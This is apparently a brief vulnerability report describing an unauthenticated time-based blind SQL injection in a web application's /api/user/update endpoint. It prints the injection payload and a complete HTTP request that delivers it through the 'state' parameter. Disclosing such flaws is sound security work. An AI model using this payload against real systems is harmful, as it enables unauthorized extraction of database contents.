 You can see in the code that there are injection points:

![image-20250407114514271](image-20250407114514271.png)

Trace up to controller:

![image-20250407114615555](image-20250407114615555.png)

Payload：

```
1 AND IF(ASCII(SUBSTRING(DATABASE(),1,1))>100, SLEEP(3), 0)
```

And the interface has no permission check, so it can be injected in the foreground

```
POST /api/user/update HTTP/1.1
Host: 192.168.109.146:8084
Content-Length: 77
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.6818.72 Safari/537.36
Content-Type: application/x-www-form-urlencoded;charset=UTF-8
Origin: http://192.168.109.146:8084
Referer: http://192.168.109.146:8084/role
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
sec-ch-ua: "(Not(A:Brand";v="99", "Google Chrome";v="133", "Chromium";v="133"
sec-ch-ua-full-version-list: "(Not(A:Brand";v="99.0.0.0", "Google Chrome";v="133", "Chromium";v="133"
sec-ch-ua-platform: "macOS"
sec-ch-ua-mobile: ?0
Connection: close

username=wx&state=1+AND+IF(ASCII(SUBSTRING(DATABASE(),1,1))>100,+SLEEP(3),+0)
```

![image-20250407115433659](image-20250407115433659.png)

